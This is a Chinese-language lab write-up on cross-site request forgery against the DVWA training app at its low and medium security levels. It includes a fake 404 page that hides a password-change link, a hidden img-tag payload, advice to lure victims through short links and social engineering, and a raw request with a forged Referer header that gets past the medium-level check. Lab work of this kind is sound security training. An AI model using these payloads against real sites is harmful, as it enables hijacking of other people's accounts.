 **1.low**

没有任何防护，可以直接通过url进行修改密码。可以通过“短链接”+“社工”的方式，诱惑受害人点击此链接，从而成功修改密码。

短链接在线生成：http://tool.chinaz.com/tools/dwz.aspx

`password_new=123&password_conf=123&Change=Change#`

可以伪装成恶意网页，进行欺骗攻击

```html
<h1>404<h1>

<a href="http://49.232.78.252:81/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#">W3School</a>
<h2>file not found.<h2>
```

![image-20220122223437202](https://s2.loli.net/2022/01/22/OjBAm5R8tiwXnZr.png)

受害者点开链接之后，密码已被修改。

网上还有一种攻击方式：

```html
<img src="http://192.168.50.100/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=
hack&Change=Change#" border="0" style="display:none;"/>
```

打开网页文件即可，不用点击链接。但是已经多次实践未成功。



**2.medium**

![image-20220122214135985](https://s2.loli.net/2022/01/22/dFcy4R35UlPAQhL.png)

```python
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];
```

对referer进行了检查

```
GET /vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change HTTP/1.1
Host: 49.232.78.252:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Referer: http://49.232.78.252:81/vulnerabilities/csrf/
Cookie: PHPSESSID=9mjbjlhio6pup4mq4ne932fbo2; security=medium
Upgrade-Insecure-Requests: 1
```

添加referer之后便可成功修改密码
